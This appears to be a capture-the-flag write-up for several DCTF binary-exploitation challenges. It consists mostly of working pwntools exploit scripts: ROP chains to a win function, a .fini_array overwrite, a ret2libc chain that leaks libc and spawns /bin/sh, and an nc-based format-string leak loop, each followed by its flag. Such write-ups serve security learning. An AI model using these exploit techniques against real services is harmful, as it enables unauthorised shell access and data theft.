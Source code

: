 # ***PWN***

## ***PWN_SANITY_CHECK***

```py
from pwn import *

binary = context.binary = ELF('./pwn_sanity_check')
p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))

payload  = b''
payload += b'A' * 72
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi_r15)
payload += p64(0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter('joke\n',payload)
p.interactive()
```
FLAG: ***``dctf{Ju5t_m0v3_0n}``***

## ***PINCH_ME***

```py
from pwn import *

binary = context.binary = ELF('./pinch_me')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

payload  = b''
payload += b'A' * 24
payload += p64(0x1337c0de)

p.sendlineafter('?\n',payload)
p.interactive()
```
FLAG : ``***dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}``***

## ***README***

The vuln function reads flag.txt into a local (local_58) stack array.

The vulnerability is the printf(local_38) statement that is missing a format string. Exfiltrating the flag is as simple as passing %nn$p format strings where nn is the position in the stack; starting from 6 just increment until the output starts with dctf (nn = 8), then continue until you have the flag.

```c
for((p=8;p<14;p++)) {
    echo '%'$p'$p' | \
    nc dctf-chall-readme.westeurope.azurecontainer.io 7481 | \
    grep 'hello ' | \
    awk -Fx '{print $NF}' | \
    xxd -r -p | \
    rev
}
```

This bash script will echo %8$p, then echo %9$p, etc... into the challenge service serially (one by one), capturing the output (grep, awk), converting to text (xxd), and then finally reversing the string (rev, since x86_64 is little endian).

```
dctf{n0w_g0_r3ad_s0me_b0rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
```
By guessing the last letters as `0k5`.

FLAG : ***```dctf{n0w_g0_r3ad_s0me_b00k5}```***

## ***MAGIC_TRICK***

```py
from pwn import *

binary = context.binary = ELF('./magic_trick')

p = remote('dctf-chall-magic-trick.westeurope.azurecontainer.io', 7481)

p.sendlineafter('write\n', str(binary.sym.win))
p.sendlineafter('it\n', str(binary.get_section_by_name('.fini_array').header.sh_addr))
print(p.recvuntil('}').decode())
```

FLAG : ***```dctf{1_L1k3_M4G1c}```***

# ***BABY_BOF***

```py
from pwn import *

binary = context.binary = ELF('./baby_bof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

if args.REMOTE:
    p = remote('dctf-chall-baby-bof.westeurope.azurecontainer.io', 7481)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = b''
payload += 0x12 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.vuln)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')

puts = u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = 0x12 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')
p.interactive()
```
https://github.com/datajerk/ctf-write-ups/blob/master/INDEX.md

similiar : https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/roprop 
           
   https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what
